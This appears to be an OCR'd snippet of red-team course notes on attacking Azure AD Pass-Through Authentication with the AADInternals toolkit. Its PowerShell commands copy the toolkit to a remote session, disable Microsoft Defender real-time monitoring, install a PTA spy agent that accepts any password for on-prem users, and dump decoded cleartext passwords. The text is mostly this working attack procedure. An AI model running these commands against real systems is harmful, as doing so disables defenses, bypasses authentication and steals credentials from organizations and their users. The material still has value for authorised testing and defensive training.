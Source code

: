 ```powershell 
Copy-Item -ToSession {{ PSSession $pssession }} -Path C:\AzAD\Tools\AADInternals.0.4.5.zip -Destination C:\Users\adconnectadmin\Documents

Enter-PSSession {{ PSSession $pssession }}

Set-MpPreference - DisableRealtimeMonitoring $true
Expand-Archive C:\Users\adconnectadmin\Documents\AADInternals.0.4.5.zip -DestinationPath C:\Users\adconnectadmin\Documents\AADInternals
Import-Module C:\Users\adconnectadmin\Documents\AADInternals\AADInternals.psd1
```

If we install the PTA agent we can configure the machine to accept all onprem users and also see the used passwords

```powershell
# Install PTA agent
Install-AADIntPTASpy

# We can auth as any onprem user and also see correct passwords
Get-AADIntPTASpyLog -DecodePasswords
```


